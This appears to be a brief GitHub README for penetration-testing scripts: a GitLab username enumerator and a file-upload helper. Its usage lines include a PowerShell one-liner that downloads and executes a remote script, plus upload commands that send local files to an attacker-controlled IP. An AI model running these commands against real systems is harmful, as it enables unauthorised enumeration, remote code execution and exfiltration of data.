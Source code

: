 # Ai-Generated-Scripts
## GitLabUserEnum
### required Python packages
```
pip3 install requests tqdm
```
### Usage example
```
python3 GitLabUserEnum.py --url 'http://gitlab..local' --wordlist top-usernames-shortlist.txt -v -t 10
```
<img src="https://github.com/user-attachments/assets/457e58d0-5984-4dcc-be97-7bc1d35fb70f" width="300">

## SimpleUploadServer
This script can help you when the host you are on doesn't have uploadserver installed and can't install it.
**Usage**
Windows
```
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
Invoke-FileUpload -Uri http://<ip>:8699 -File <full file path>
```
Linux
```
curl -F "file=@/path/to/local/file" http://<server-ip>:8699/
```
